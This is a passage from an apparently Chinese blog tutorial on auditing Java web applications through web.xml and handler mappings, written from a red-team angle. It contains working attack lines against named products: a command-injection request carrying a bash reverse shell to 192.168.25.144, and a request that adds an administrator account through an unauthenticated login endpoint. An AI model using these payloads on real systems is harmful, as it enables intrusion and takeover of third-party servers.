[image](https://novysodope.github.io/images/94/g84RdzSd18uTYbMI_c1ixlyf6m6kdzlCasiQVfH1w98.png "image")

这时候再继续往下跟就可以了，流程一样

##### [](#%E8%BF%94%E5%9B%9E%E7%BB%93%E6%9E%9C "返回结果")**返回结果**[](#%E8%BF%94%E5%9B%9E%E7%BB%93%E6%9E%9C)

在 spring 项目中，`@Controller`跟`@RestController`的返回类型是不一致的

###### [](#Controller "@Controller")**@Controller**[](#Controller)

在使用`@Controller`注解时，该请求处理的返回结果需要配合视图解析器`InternalResourceViewResolver`才行，也就是说，当某个请求使用了`@Controller`，那么它 return 的内容就必须是前端页面，且页面文件必须存在，场景如下

[](https://novysodope.github.io/images/94/jSTQeFQCoTvGU4TDIKQG6wUVE6vA-nTofU2Vu3K5MM8.png "image")

[image](https://novysodope.github.io/images/94/jSTQeFQCoTvGU4TDIKQG6wUVE6vA-nTofU2Vu3K5MM8.png "image")

该 controller 将返回`hi`或`index`页面，此时静态资源中就要存在`hi`、`index.html`或`jsp`文件

###### [](#RestController "@RestController")**@RestController**[](#RestController)

如果只是使用`@RestController`注解，则 Controller 中的方法无法返回 jsp 页面，或者 html，配置的视图解析器 `InternalResourceViewResolver`不起作用，返回的内容就是 Return 里的内容。场景如下：

[](https://novysodope.github.io/images/94/CUWMpZ1OGtfanaqpHDTH8V9AOzJzxdOf7XhgCQgQCsE.png "image")

[image](https://novysodope.github.io/images/94/CUWMpZ1OGtfanaqpHDTH8V9AOzJzxdOf7XhgCQgQCsE.png "image")

此时该 controller 返回的只是字符串 hi 或 index，不会跳转到对应页面。

# [](#1-%E5%B0%8F%E6%8A%80%E5%B7%A7 "1. 小技巧")1. **小技巧**[](#1-%E5%B0%8F%E6%8A%80%E5%B7%A7)

## [](#1-1-%E5%91%BD%E5%90%8D "1.1. 命名")1.1. **命名**[](#1-1-%E5%91%BD%E5%90%8D)

无论是 struts 还是 springmvc/boot，按照我的理解，为了方便区分和后续其他开发，除非另类命名（比如`3.1.3`），在整个请求处理流程中对于类名的前置命名都是一致的，比如

**Novy**Controller->**Novy**Service->(**Novy**ServiceImpl->)**Novy**Mapper.xml

或者下一层级会多出个别字符`INovy`、`PNovy`等。而不会出现

**Novy**Controller->**Test**Service->(**Why**ServiceImpl->)**Oasd**Mapper.xml

这种情况，所以在审计过程中跟进代码时利用全局搜索能更好的提高审计效率

[](https://novysodope.github.io/images/94/YYNMUOwvD9nF9cU1Kr4sCu08wWnqoGDCaZ6iiwt9Y-c.png "image")

[image](https://novysodope.github.io/images/94/YYNMUOwvD9nF9cU1Kr4sCu08wWnqoGDCaZ6iiwt9Y-c.png "image")

当然，有其他实现类实现统一接口的时候情况按前面本章思考说的层级跟进一样跟就行了

## [](#1-2-%E6%96%B9%E6%B3%95%E7%9A%84%E8%B7%9F%E8%BF%9B "1.2. 方法的跟进")1.2. **方法的跟进**[](#1-2-%E6%96%B9%E6%B3%95%E7%9A%84%E8%B7%9F%E8%BF%9B)

通常调用方法时都是类名。方法名，或者写了一个接口，然后再定义一次，如下

`private EntityManager em;`

这样 em 就可以用到`EntityManager`里的方法

比如某个项目有一个序列化工具类`SerializeUtil`，在该类里有一个`deserialize`方法来反序列化接收的 request 数据

[](https://novysodope.github.io/images/94/sS9QgkQ6LplKU2l3dwmsvqCBWtMBJ4NnEvp3UWK48MU.png "image")

[image](https://novysodope.github.io/images/94/sS9QgkQ6LplKU2l3dwmsvqCBWtMBJ4NnEvp3UWK48MU.png "image")

而在 controller 中定义了一个接口`fvlh`

[](https://novysodope.github.io/images/94/8HVW5PIyG0ds9amUXejUPH6EUiE8q6io4RKfwH_PZcc.png "image")

[image](https://novysodope.github.io/images/94/8HVW5PIyG0ds9amUXejUPH6EUiE8q6io4RKfwH_PZcc.png "image")

然后进行调用

`fvlh.deserialize(request);`

[](https://novysodope.github.io/images/94/Kx6YeNhVYTyRzkuKG5Vt83Fc85sNj8l8xrXD92YAWYI.png "image")

[image](https://novysodope.github.io/images/94/Kx6YeNhVYTyRzkuKG5Vt83Fc85sNj8l8xrXD92YAWYI.png "image")

如果我们想找反序列化漏洞就在跟进时可以直接`ctrl+左键（idea）`来跟进`deserialize`方法查看具体实现，或者先查看哪里定义了`fvlh`，然后再根据接口实现去跟进`deserialize`方法进行漏洞跟踪即可

# [](#1-%E8%BF%9B%E9%98%B6 "1. 进阶")1. **进阶**[](#1-%E8%BF%9B%E9%98%B6)

## [](#%E7%BA%A2%E9%98%9F%E5%BF%AB%E9%80%9F%E5%AE%A1%E8%AE%A1 "红队快速审计")**红队快速审计**[](#%E7%BA%A2%E9%98%9F%E5%BF%AB%E9%80%9F%E5%AE%A1%E8%AE%A1)

在开始之前，需要继续再了解一下过滤器和处理器映射器。说到过滤器，还有一种拦截器，过滤器关注的是 web 请求，拦截器关注的是方法调用，比如拦截敏感词汇，有关两者的区别可以自行百度。在红队实施工程中，大都喜欢通过供应链攻击来获得目标项目源码以进行下一步针对性打点。在获得的源码中，java 类项目除了 springboot 之外，一般都以 war 包的形式基于 tomcat 部署。接下来就说一下再得到源码之后如何快速找到入口并审出漏洞

### [](#%E8%BF%87%E6%BB%A4%E5%99%A8%E4%B9%8BWeb-xml "过滤器之Web.xml")**过滤器之 Web.xml**[](#%E8%BF%87%E6%BB%A4%E5%99%A8%E4%B9%8BWeb-xml)

`Web.xml`是 Java Web 项目中的一个配置文件，主要用于配置首页、Filter、Listener、Servlet 等。tomcat 在部署启动 web 应用时，会解析加载`${CATALINA_HOME}/conf`目录下所有 web 应用通用的 web.xml，然后解析加载 web 应用目录中的`WEB-INF/web.xml` 。`conf/web.xml`文件中的设定会应用于所有的 web 应用程序，而 web 应用程序的`WEB-INF/web.xml`中的设定只应用于该应用程序本身。

#### [](#web-xml%E5%8A%A0%E8%BD%BD%E8%BF%87%E7%A8%8B "web.xml加载过程")**web.xml 加载过程**[](#web-xml%E5%8A%A0%E8%BD%BD%E8%BF%87%E7%A8%8B)

1,、启动 Web 项目时，容器 (tomcat) 会去读取 web.xml 文件的`</listener>`和 `</context-param>`两个标签节点；

2、容器创建一个`ServletContext`(上下文环境)；

3、容器以的`name作为键`，`value作为值`，将其转化为键值对，存入`ServletContext`。

4、容器创建`</listener>`中的类实例，根据配置的 class 类路径`<listener-class>`来创建监听，在监听中会有`contextInitialized(ServletContextEvent args)`初始化方法，启动 Web 应用时，系统调用`Listener`的该方法。

5、容器初始化`</filter>`，web.xml 中可以定义多个 filter，**初始化每个 filter 时，是按照 filter 配置节出现的顺序来初始化的，当请求资源匹配多个 filter-mapping 时，filter 拦截资源是按照 filter-mapping 配置节出现的顺序来依次调用 doFilter() 方法**

6、容器初始化`</servlet>`

有关 web.xml 标签的解释，可以查看[https://www.jianshu.com/p/7f834dd090fe](https://www.jianshu.com/p/7f834dd090fe)

### [](#Filter "Filter")**Filter**[](#Filter)

过滤器的本质就是一个实现了 Filter 接口的 Java 类，具体表现如下图，针对请求的处理就发生在 doFilter 方法中。当执行完语句或满足某种条件时就会放行当前请求进入下一个过滤器 `chain.doFilter`

[](https://novysodope.github.io/images/94/7vn1l2u0Pea2en2giAKDDLd_74zeGZItxHyRWut7Yo0.png "image")

[image](https://novysodope.github.io/images/94/7vn1l2u0Pea2en2giAKDDLd_74zeGZItxHyRWut7Yo0.png "image")

还有一种是通过实现`Servlet`接口来响应用户请求，表现如下图，处理请求的实现就在`service`方法中，其继承的`HttpServlet`就是`Servlet`接口的实现类（他还继承了`GenericServlet`，`GenericServlet`才是直接实现 Servlet 的抽象类。每个处理器都有个核心方法，如拦截器就是`preHandle`、`postHandle`）

[](https://novysodope.github.io/images/94/Pc-UmWQtmikf2-1MK-FxMSmIE54K1aH_cEQQF4EfQO4.png "image")

[image](https://novysodope.github.io/images/94/Pc-UmWQtmikf2-1MK-FxMSmIE54K1aH_cEQQF4EfQO4.png "image")

### [](#%E9%9D%9E%E6%B3%A8%E8%A7%A3%E5%A4%84%E7%90%86%E5%99%A8%E6%98%A0%E5%B0%84%E5%99%A8 "非注解处理器映射器")**非注解处理器映射器**[](#%E9%9D%9E%E6%B3%A8%E8%A7%A3%E5%A4%84%E7%90%86%E5%99%A8%E6%98%A0%E5%B0%84%E5%99%A8)

其配置场景感觉跟 strust2 的差不多，有两种写法

第一种：BeanNameUrlHandlerMapping

[](https://novysodope.github.io/images/94/Fs-I02d9nWWaBX221zf4RcI1Bh2zQ8WUMa55muoz-4Q.png "image")

[image](https://novysodope.github.io/images/94/Fs-I02d9nWWaBX221zf4RcI1Bh2zQ8WUMa55muoz-4Q.png "image")

`name属性`就是请求 url，class 是负责处理请求的类

第二种：SimpleUrlHandlerMapping

[](https://novysodope.github.io/images/94/vXhvQgyvMQjXVHqJQWgBB2iihvtwJLGeMnMc2EfIz3g.png "image")

[image](https://novysodope.github.io/images/94/vXhvQgyvMQjXVHqJQWgBB2iihvtwJLGeMnMc2EfIz3g.png "image")

`prop key`会根据其标签值去查找对应的`bean id`，再根据 bean 标签对应的 Handler（即 class）处理请求，这里的`prop key="/queryUsers1.action"`也是请求 url，同一个 bean 可以有多个 url 映射

#### [](#%E5%BF%AB%E9%80%9F%E5%AE%A1%E8%AE%A1 "快速审计")**快速审计**[](#%E5%BF%AB%E9%80%9F%E5%AE%A1%E8%AE%A1)

##### [](#%E6%A1%88%E4%BE%8B%E4%B8%80%E3%80%81 "案例一、")**案例一、**[](#%E6%A1%88%E4%BE%8B%E4%B8%80%E3%80%81)

这里以 war 项目为例，再得到源码之后解压，直接打开 WEB-INF 下的 Web.xml 查看过滤映射配置

[](https://novysodope.github.io/images/94/ThjAXYuiRJXxdMOvjXxZTYOvH2-R-wM8yH7yyJPg1DQ.png "image")

[image](https://novysodope.github.io/images/94/ThjAXYuiRJXxdMOvjXxZTYOvH2-R-wM8yH7yyJPg1DQ.png "image")

在 idea 里，还要右键 lib 目录，将依赖导入到项目中

[](https://novysodope.github.io/images/94/-XmSt1nw0QxboSsIwIKkS46MnQcM029iz1sQxeUyBpU.png "image")

[image](https://novysodope.github.io/images/94/-XmSt1nw0QxboSsIwIKkS46MnQcM029iz1sQxeUyBpU.png "image")

回到 web.xml

[](https://novysodope.github.io/images/94/5rNw4jcWizPMTQyZvbR38AyiGIcKtUDRoEXBxgNJAsU.png "image")

[image](https://novysodope.github.io/images/94/5rNw4jcWizPMTQyZvbR38AyiGIcKtUDRoEXBxgNJAsU.png "image")

`servlet-name`标签标示过滤器名称，每个过滤器处理一个或多个请求。图中名为`JsInvokeServlet`的过滤器由`nc.bs.framework.js.servlet.JsInvokeServlet`类实现。该过滤器主要用于处理`/jsinvoke/*`请求，即`<url-pattern>`标签

我们直接`ctrl+左键`点击`JsInvokeServlet`进入`JsInvokeServlet`类查看实现，如果`JsInvokeServlet`爆红，请确认 lib 有没有被导入，或者可以双击 shift 键搜索

[](https://novysodope.github.io/images/94/9mxjVafaK73tfOEvuKchCix-lq0o1g5cUhSBv-HOUuA.png "image")

[image](https://novysodope.github.io/images/94/9mxjVafaK73tfOEvuKchCix-lq0o1g5cUhSBv-HOUuA.png "image")

进入到`JsInvokeServlet`后看其核心方法

[](https://novysodope.github.io/images/94/b81pYuru6ZvcBJDS7jMj4ahrLABE4bhRCxcud88wFbs.png "image")

[image](https://novysodope.github.io/images/94/b81pYuru6ZvcBJDS7jMj4ahrLABE4bhRCxcud88wFbs.png "image")

跟进`service`直到看到有方法的实现，这里他将 req、rep 对象传进下一个`service`，继续跟进

[](https://novysodope.github.io/images/94/PhqfuXx1ua0WphPAI9yzq7KHKeZdIr3rb6b1IWxMFUg.png "image")

[image](https://novysodope.github.io/images/94/PhqfuXx1ua0WphPAI9yzq7KHKeZdIr3rb6b1IWxMFUg.png "image")

在下一层的`service`方法中看到对请求的响应处理

[](https://novysodope.github.io/images/94/mp7GO_j9a5UkEW1sdB1Z9BYmsPcPV2T-tV0NaRj-OAs.png "image")

[image](https://novysodope.github.io/images/94/mp7GO_j9a5UkEW1sdB1Z9BYmsPcPV2T-tV0NaRj-OAs.png "image")

这个时候再根据对应的实现跟进就可以查看有无漏洞了。像这种只有一个过滤器，且实现里没有针对`/jsinvoke/*`请求的登录校验，那么这里就存在一个未授权访问漏洞。验证漏洞时其 url 组成为`项目名+<url-pattern>标签值`。默认情况下，只要项目不在 tomcat 的 ROOT 目录里，那么项目文件夹名也是 url 组成的一部分，如图，拼接得到`/uapjs/jsinvoke/`

[](https://novysodope.github.io/images/94/3F1aWdxrgltQtKgJxzTY7EKvsOLTRG0iTzhPoyPzMFw.png "image")

[image](https://novysodope.github.io/images/94/3F1aWdxrgltQtKgJxzTY7EKvsOLTRG0iTzhPoyPzMFw.png "image")

[](https://novysodope.github.io/images/94/O33bL1OGiMnKNkJowRYIhPyB5ECi7XdyBzkW4hg6-xw.png "image")

[image](https://novysodope.github.io/images/94/O33bL1OGiMnKNkJowRYIhPyB5ECi7XdyBzkW4hg6-xw.png "image")

##### [](#%E6%A1%88%E4%BE%8B%E4%BA%8C%E3%80%81 "案例二、")**案例二、**[](#%E6%A1%88%E4%BE%8B%E4%BA%8C%E3%80%81)

还是查看`WEB-INF/web.xml`

`com.inspur.tsce4.monPhysicalView.Servlet`处理`/monPhysicalView`请求

[](https://novysodope.github.io/images/94/Nr6Akt0AgJB-fK9SvrCjFlabokVwmDUWbWh5gRlYFqw.png "image")

[image](https://novysodope.github.io/images/94/Nr6Akt0AgJB-fK9SvrCjFlabokVwmDUWbWh5gRlYFqw.png "image")

在 Servlet 类中，会将请求交到`Management`对象处理

`WEB-INF/classes/com/inspur/tsce4/monPhysicalView/Servlet.class`

[](https://novysodope.github.io/images/94/1LxYoo8MCUt6AV59I-SLr9hgWw89dxP6ZDctVAFdafA.png "image")

[image](https://novysodope.github.io/images/94/1LxYoo8MCUt6AV59I-SLr9hgWw89dxP6ZDctVAFdafA.png "image")

[](https://novysodope.github.io/images/94/Z_kT_CvPcwJpGGTRryt5cJ3l3QMusWy9veFPitCLKdA.png "image")

[image](https://novysodope.github.io/images/94/Z_kT_CvPcwJpGGTRryt5cJ3l3QMusWy9veFPitCLKdA.png "image")

在`doResponse`方法中，获取请求参数`op`，当参数值是`systemShutdown`时就会进到`systemShutdown`方法

[](https://novysodope.github.io/images/94/TmJrDipkVmGytYrOIchN_uSWeIg2Xen_5XMdbjb0SwA.png "image")

[image](https://novysodope.github.io/images/94/TmJrDipkVmGytYrOIchN_uSWeIg2Xen_5XMdbjb0SwA.png "image")

在`systemShutdown`方法中，又从请求中获取参数，将参数传到`Command`的`systemShutdown`方法

[](https://novysodope.github.io/images/94/q0kMfVfB5MeM8JXBKVpiNhEzFZHb8iFZSgWcOCz2fAg.png "image")

[image](https://novysodope.github.io/images/94/q0kMfVfB5MeM8JXBKVpiNhEzFZHb8iFZSgWcOCz2fAg.png "image")

`WEB-INF/classes/com/inspur/tsce4/monPhysicalView/Command.class`

继续传到`doCommand`方法

[](https://novysodope.github.io/images/94/fQm3dQAyOdmenINeWSkrGhE-W-6R9LPriuUJcq1Hv_8.png "image")

[image](https://novysodope.github.io/images/94/fQm3dQAyOdmenINeWSkrGhE-W-6R9LPriuUJcq1Hv_8.png "image")

`doCommand`方法中因为调用了系统 shell，所以可以使用管道符进行命令拼接，导致命令执行漏洞产生

[](https://novysodope.github.io/images/94/zMvusi0Zokp6EK0OmUNXsRoa_g714nxW2EmwDmm2Yw4.png "image")

[image](https://novysodope.github.io/images/94/zMvusi0Zokp6EK0OmUNXsRoa_g714nxW2EmwDmm2Yw4.png "image")

示例：

[](https://novysodope.github.io/images/94/uhUUAAjoYdiN6xquvOQjt-FJEm2eD0nxl2SygfiGFXk.png "image")

[image](https://novysodope.github.io/images/94/uhUUAAjoYdiN6xquvOQjt-FJEm2eD0nxl2SygfiGFXk.png "image")

[](https://novysodope.github.io/images/94/brfEbrhkETTnh4b59Gfjl6DGoKDipVRAG3TzY08wrz8.png "image")

[image](https://novysodope.github.io/images/94/brfEbrhkETTnh4b59Gfjl6DGoKDipVRAG3TzY08wrz8.png "image")

根据案例一介绍，搭配 web.xml 的映射配置，url 为：

```bash
/tsce4/monPhysicalView?op=systemShutdown
 
{"nodename":"a | bash -i >& /dev/tcp/192.168.25.144/8888 0>&1 |"}
```

##### [](#%E6%A1%88%E4%BE%8B%E4%B8%89%E3%80%81 "案例三、")**案例三、**[](#%E6%A1%88%E4%BE%8B%E4%B8%89%E3%80%81)

还是 web.xml

在 web.xml 的初始化内容中看到，`/sysLogin.do`可以不用进行权限校验

[](https://novysodope.github.io/images/94/3F_CcX9X8lg_dpZmnMLpA6LGF2I_IjeDTm1gHVc9my0.png "image")

[image](https://novysodope.github.io/images/94/3F_CcX9X8lg_dpZmnMLpA6LGF2I_IjeDTm1gHVc9my0.png "image")

全局搜索`sysLogin.do`查看器映射配置

[](https://novysodope.github.io/images/94/UNDvgX4AsGhQ7yDHZByznh5o-U7i8mD1zWX3madrrDA.png "image")

[image](https://novysodope.github.io/images/94/UNDvgX4AsGhQ7yDHZByznh5o-U7i8mD1zWX3madrrDA.png "image")

这就是前面提到的非注解`SimpleUrlHandlerMapping`方式，按照介绍这里就跟着标签值查找对应的`bean id`，搜一下`sys.Login`

[](https://novysodope.github.io/images/94/goUPy5U0VeNIT0ULGMi-9TO7-RivQCvUiH278DCmZPI.png "image")

[image](https://novysodope.github.io/images/94/goUPy5U0VeNIT0ULGMi-9TO7-RivQCvUiH278DCmZPI.png "image")

跟进其 handle 查看请求处理实现

`WEB-INF/classes/com/founder/newsedit/edit/v2/sys/NewseditSysLoginController.java`

在`handle`方法中会通过判断`Super`的值来进入相应的方法进行处理

[](https://novysodope.github.io/images/94/TN763bwqQM2lvUQI6tW4ft14ca-qUT-JuLeNE62n-RM.png "image")

[image](https://novysodope.github.io/images/94/TN763bwqQM2lvUQI6tW4ft14ca-qUT-JuLeNE62n-RM.png "image")

在`putSession`方法中，会创建一个管理员权限的账号

[](https://novysodope.github.io/images/94/2d11Bf3buzFLXGaZdF76mhFJ6wOLCWA2ZhgXeObqips.png "image")

[image](https://novysodope.github.io/images/94/2d11Bf3buzFLXGaZdF76mhFJ6wOLCWA2ZhgXeObqips.png "image")

参数表现为

`Super=1&UserName=test&UserCode=1&UserID=11&UserPassword=123456`

按照前面说到的项目名+web.xml 映射路径

所以可以通过请求

`/newsedit/e5sys/sysLogin.do?Super=1&UserName=test&UserCode=1&UserID=11&UserPassword=123456`

添加管理员账号

## [](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83-2 "本章思考")**本章思考**[](#%E6%9C%AC%E7%AB%A0%E6%80%9D%E8%80%83-2)

看到这里想必已经清楚了其实很多时候查看 xml 配置文件能有很多意外之喜，在拿到源码之后，可以通过查看映射配置文件以及过滤器配置文件来快速定位入口以便下一步找到漏洞。由于顺序关系，很多时候在`web.xml`中就可以找到未授权访问漏洞或者权限绕过漏洞。在找到绕过之后就可以查看业务逻辑层有无敏感的操作，如命令执行、文件上传、用户重置、token 获取等搭配绕过来利用。

# [](#5-%E5%8F%82%E8%80%83 "5.参考")**5.参考**[](#5-%E5%8F%82%E8%80%83)

在学完以上思路后，基本就可以去审计漏洞跟进代码了，此处列举常见漏洞场景，以供参考

[](https://novysodope.github.io/images/94/Ce0FTWUP-cKTZGMOQrx2Li5zBru1fRdE3DDlHZyEtow.png "image")

[image](https://novysodope.github.io/images/94/Ce0FTWUP-cKTZGMOQrx2Li5zBru1fRdE3DDlHZyEtow.png "image")
